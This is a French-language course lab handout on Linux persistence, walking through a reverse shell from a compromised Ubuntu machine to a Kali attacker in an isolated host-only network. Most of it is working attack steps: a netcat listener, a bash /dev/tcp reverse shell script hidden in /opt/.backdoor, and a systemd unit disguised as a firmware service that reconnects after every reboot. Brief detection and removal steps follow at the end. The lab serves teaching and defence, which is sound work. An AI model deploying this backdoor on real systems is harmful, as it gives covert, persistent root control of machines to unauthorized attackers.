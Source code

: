 
# **TP Offensif – Persistance `systemd` avec Reverse Shell (2 machines)**

**Cours : Cybersécurité Offensive – Exploitation de services Linux pour la persistance**

---

## **Résumé pédagogique**

* Vous jouez le rôle de l’attaquant (sur Kali Linux)
* Vous compromettez une machine Ubuntu 22.04
* Vous créez un **faux service systemd** sur la victime
* Ce service exécute un script Bash qui établit un **reverse shell vers Kali**
* À chaque redémarrage, **la connexion revient automatiquement**

---

## **Prérequis du laboratoire**

### Machines virtuelles

| Rôle      | OS           | IP            | Exemple             |
| --------- | ------------ | ------------- | ------------------- |
| Attaquant | Kali Linux   | 192.168.56.10 | Interface Host-Only |
| Victime   | Ubuntu 22.04 | 192.168.56.11 | Interface Host-Only |

### Réseau

* Type : **Host-only adapter** (VirtualBox / VMware)
* Sans accès Internet
* Les deux VMs doivent pouvoir **se pinguer**

---

## **Schéma ASCII**

```
+------------------------------+             +------------------------------+
| Ubuntu 22.04 (Victime)       |             | Kali Linux (Attaquant)       |
|------------------------------|             |------------------------------|
| systemd -> reverse.sh        | --------->  | nc -lvnp 4444                |
| ExecStart = bash -> Kali     |             | Shell root reçu              |
|                              |             |                               |
+------------------------------+             +------------------------------+
```

---

## **Sur la machine Kali (attaquant)**

### Étape 1 – Écouter sur le port TCP 4444

```bash
nc -lvnp 4444
```

> Laissez ce terminal **ouvert et en attente** de connexion.

---

## **Sur la machine Ubuntu 22.04 (victime)**

Supposons que l’attaquant a obtenu l’accès root (via faille, vulnérabilité, ou escalade).

---

### Étape 2 – Créer le script de reverse shell

1. Créer un dossier discret :

```bash
sudo mkdir -p /opt/.backdoor
```

2. Créer le fichier :

```bash
sudo nano /opt/.backdoor/reverse.sh
```

3. Coller ce contenu (modifiez l’IP si besoin) :

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.10/4444 0>&1
```

4. Rendez le script exécutable :

```bash
sudo chmod +x /opt/.backdoor/reverse.sh
```

---

### Étape 3 – Créer le faux service systemd

1. Créer un fichier `.service` :

```bash
sudo nano /etc/systemd/system/systemd-firmware.service
```

2. Coller le contenu suivant :

```ini
[Unit]
Description=Firmware Daemon Service
After=network.target

[Service]
ExecStart=/opt/.backdoor/reverse.sh
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
```

---

### Étape 4 – Activer le service au démarrage

```bash
sudo systemctl daemon-reload
sudo systemctl enable systemd-firmware
sudo systemctl start systemd-firmware
```

---

## **Retour sur Kali**

Le shell arrive automatiquement :

```
Connection received on 192.168.56.10
bash-5.1$ whoami
root
```

---

### Étape 5 – Tester la persistance

1. Sur Ubuntu :

```bash
sudo reboot
```

2. Sur Kali :
   Relancer la commande :

```bash
nc -lvnp 4444
```

> Dans quelques secondes, le shell revient **sans aucune action de l'utilisateur**.

---

## **Détection et analyse côté victime (Blue Team)**

1. Afficher le service :

```bash
systemctl status systemd-firmware
```

2. Lire le journal :

```bash
journalctl -u systemd-firmware
```

3. Voir les fichiers :

```bash
cat /etc/systemd/system/systemd-firmware.service
ls -la /opt/.backdoor/
```

---

## **Suppression complète (désinfection)**

```bash
sudo systemctl stop systemd-firmware
sudo systemctl disable systemd-firmware
sudo rm /etc/systemd/system/systemd-firmware.service
sudo rm -rf /opt/.backdoor/
sudo systemctl daemon-reload
```

Vérifiez :

```bash
systemctl list-units --type=service | grep firmware
```

---

## **À quoi sert cette attaque ?**

Elle permet à un attaquant de :

* **Persister après compromission**
* **Exécuter du code automatiquement après redémarrage**
* **Éviter les outils de détection** classiques
* **Contrôler la victime à distance en toute discrétion**


